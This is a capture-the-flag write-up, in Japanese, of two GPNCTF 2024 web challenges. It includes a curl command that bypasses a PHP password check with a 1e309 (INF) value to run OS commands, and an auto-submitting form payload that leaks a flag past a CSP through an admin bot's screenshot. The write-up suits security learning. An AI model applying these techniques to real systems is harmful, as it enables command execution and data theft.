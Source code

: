 ```yaml
---
title: "GPNCTF Writeup"
id: "GPNCTF-2024-Writeup"
description: "GPNCTFのWriteupです。"
author: "rikoteki"
createdAt: "2024-06-02"
isDraft: false
---
```


Webサイトがプレイリストっぽくてかっこ良い。

Webジャンルの2問だけ説いた。

![image](https://github.com/r1k0t3k1/note/assets/57973603/08778701-fd25-4661-a8db-a0574dbcc0c6)


# [Web] Never gonna tell a lie and type you

シンプルな単一PHPファイルのWebアプリ。

```php
<?php
       ini_set("display_errors",1);
       error_reporting(E_ALL);
//we tought about using passwords but you see everyone says they are insecure thus we came up with our own riddle.
function securePassword($user_secret){
    if ($user_secret < 10000){
        die("nope don't cheat");
    }
    $o = (integer) (substr(hexdec(md5(strval($user_secret))),0,7)*123981337);
    return $user_secret * $o ;

}
//this weird http parameter handling is old we use json
$user_input = json_decode($_POST["data"]);
//attention handling user data is dangerous
var_dump($user_input);

if ($_SERVER['HTTP_USER_AGENT'] != "friendlyHuman"){
    die("we don't tolerate toxicity");
}
    if($user_input->{'user'} === "admin🤠") {
        if ($user_input->{'password'} == securePassword($user_input->{'password'})  ){
            echo " hail admin what can I get you ". system($user_input->{"command"});
        }
        else {
            die("Skill issue? Maybe you just try  again?");
        }}
        else {
            echo "<html>";
            echo "<body>";
            echo "<h1>Welcome [to innovative Web Startup]</h1>";
            echo "<p> here we focus on the core values of each website. The backbone that carries the entire frontend</p><br><br>";
            echo "<blink>For this we only use old and trusty tools that are well documented and well tested</blink><br><br>";
            echo "<Big>That is not to say that we are not innovative, our authenticators are ahead of their time.</Big><br><br>";
           echo "<plaintext> to give you an teaser of our skills look at this example of commissioned work we build in a past project </plaintext>";

            echo system("fortune")."<br>";
        }
?>
```
ソースを読むと以下条件を満たすと`$.command`に設定したOSコマンドが実行できる様子。

- UAが`friendlyHuman`である
- `$.user`が`admin🤠`である
- `$.password` == `securePassword($.password)`である

`securePassword`関数の実装を見てみると、`password`が10000以上であることを検証している。
そして、`password`から導出した値と`password`自身を乗算した結果を返している。
`password` < 10000 の検証は0が使えないようにするためだろう。

```php
function securePassword($user_secret){
    if ($user_secret < 10000){
        die("nope don't cheat");
    }
    $o = (integer) (substr(hexdec(md5(strval($user_secret))),0,7)*123981337);
    return $user_secret * $o ;

}
```

ただし、`INF`の検証が行われていないため`securePassword`関数に`INF`を渡すと`INF`が返ってくる。

![image](https://github.com/r1k0t3k1/note/assets/57973603/fb16b9f6-e43a-4d75-a9af-36eb5fd8319c)

以上のことから`password`に、評価されるとINFになるような数値を指定することでOSコマンドが実行できる。

```bash
curl -X POST -H 'User-Agent: friendlyHuman'  --data-binary $'data={\"user\":\"admin\xf0\x9f\xa4\xa0\",\"password\":1e309,\"command\":\"cat /flag.txt\"}'  https://the-sound-of-silence--qzeng-1488.ctf.kitctf.de
```

## flag

```
GPNCTF{1_4M_50_C0NFU53D_R1GHT_N0W}
```

# [Web] todo

HTMLをSubmitすると管理者botがフラグ付きでアクセスしてくれる系の問題。

<details>
<summary>server.js</summary>

```js
const express = require('express');
const puppeteer = require('puppeteer');

const randomBytes = require('crypto').randomBytes(32).toString('hex');

const fs = require('fs');

const flag = process.env.FLAG || fs.readFileSync('./flag', 'utf8');
const script = fs.readFileSync('./script.js', 'utf8');

const app = express();
app.use(express.urlencoded({ extended: true }));

app.get('/', (req, res) => {
    res.send(`
        <h1>TODO</h1>
        <form action="/chal" method="post">
            <input type="text" name="html" placeholder="HTML">
            <button type="submit">Submit to /chal</button>
        </form>
        <hr>
        <form action="/admin" method="post">
            <input type="text" name="html" placeholder="HTML">
            <button type="submit">Submit to /admin</button>
        </form>
    `);
});

app.post('/chal', (req, res) => {
    const { html } = req.body;
    res.setHeader("Content-Security-Policy", "default-src 'none'; script-src 'self' 'unsafe-inline';");
    res.send(`
        <script src="/script.js"></script>
        ${html}
    `);
});

app.get('/script.js', (req, res) => {
    res.type('.js');
    let response = script;
    if ((req.get("cookie") || "").includes(randomBytes)) response = response.replace(/GPNCTF\{.*\}/, flag)
    res.send(response);
});

app.post('/admin', async (req, res) => {
    try {
        const { html } = req.body;
        const browser = await puppeteer.launch({ executablePath: process.env.BROWSER, args: ['--no-sandbox'] });
        const page = await browser.newPage();
        page.setCookie({ name: 'flag', value: randomBytes, domain: 'localhost', path: '/', httpOnly: true });
        await page.goto('http://localhost:1337/');
        await page.type('input[name="html"]', html);
        await page.click('button[type="submit"]');
        await new Promise(resolve => setTimeout(resolve, 2000));
        const screenshot = await page.screenshot({ encoding: 'base64' });
        await browser.close();
        res.send(`<img src="data:image/png;base64,${screenshot}" />`);
    } catch(e) {console.error(e); res.send("internal error :( pls report to admins")}
});

app.listen(1337, () => console.log('listening on http://localhost:1337'));
```
</details>

`/admin`にHTMLをSubmitすると管理者botがCookieにフラグを付与してアクセスしてくれる。
が、Cookie自体はHttpOnly属性が付与されている。

その他の挙動として、管理者botがアクセスしたページのスクリーンショットを撮影し、`/admin`のレスポンスとして返してくれるため、
管理者botが閲覧したページの描画結果が確認できる。

```js
app.post('/admin', async (req, res) => {
    try {
        const { html } = req.body;
        const browser = await puppeteer.launch({ executablePath: process.env.BROWSER, args: ['--no-sandbox'] });
        const page = await browser.newPage();
        page.setCookie({ name: 'flag', value: randomBytes, domain: 'localhost', path: '/', httpOnly: true });
        await page.goto('http://localhost:1337/');
        await page.type('input[name="html"]', html);
        await page.click('button[type="submit"]');
        await new Promise(resolve => setTimeout(resolve, 2000));
        const screenshot = await page.screenshot({ encoding: 'base64' });
        await browser.close();
        res.send(`<img src="data:image/png;base64,${screenshot}" />`);
    } catch(e) {console.error(e); res.send("internal error :( pls report to admins")}
});

```

フラグはどこにあるかというと`/script.js`というJavaScriptファイル内にコメントアウトされている。

```js
class FlagAPI {
    constructor() {
        throw new Error("Not implemented yet!")
    }

    static valueOf() {
        return new FlagAPI()
    }

    static toString() {
        return "<FlagAPI>"
    }

    // TODO: Make sure that this is secure before deploying
    // getFlag() {
    //     return "GPNCTF{FAKE_FLAG_ADMINBOT_WILL_REPLACE_ME}"
    // }
}⏎
```

このフラグ自体はダミーフラグであり、`/script.js`へのアクセスに管理者権限のCookieが付与されていた場合のみ、
正規のフラグに置換されてレスポンスされる。

```js
app.get('/script.js', (req, res) => {
    res.type('.js');
    let response = script;
    if ((req.get("cookie") || "").includes(randomBytes)) response = response.replace(/GPNCTF\{.*\}/, flag)
    res.send(response);
});
```

また、管理者botにアクセスさせるページには以下のようなCSPが設定される。

```js
app.post('/chal', (req, res) => {
    const { html } = req.body;
    res.setHeader("Content-Security-Policy", "default-src 'none'; script-src 'self' 'unsafe-inline';");
    res.send(`
        <script src="/script.js"></script>
        ${html}
    `);
});
```

単純にJavaScript Hijack問題かと思ったが、フラグを出力する関数自体がコメントアウトされているため、読み込み元のJavaScriptで実行することができない。

このサイトの挙動を思い出すと、管理者botがアクセスしたページの描画結果が確認できるので、関数が実行できなくてもコメントアウトされているソース自体を見れるのではないかと考えた。

具体的には管理者botに閲覧させたHTMLから`/script.js`へのform submitを発生させ、テキストとして描画させる。

CSPに`default-src: none`が付与されているが`form-src`のフォールバックは無いため問題ない。

`/admin`へ送信するHTMLは以下

```html
<html>
    <body>
      <form id="form" action="/script.js" method="get"></form>
      <script>
        document.getElementById("form").submit();
      </script>
    </body>
</html>
```

このHTMLを送信するとフラグを含んだ画像が確認できる。

![image](https://github.com/r1k0t3k1/note/assets/57973603/a50bf8de-f075-4d8f-a62e-69618611b064)

## flag

```
GPNCTF{N0_C0MM3NT_b7c62b1e}
```
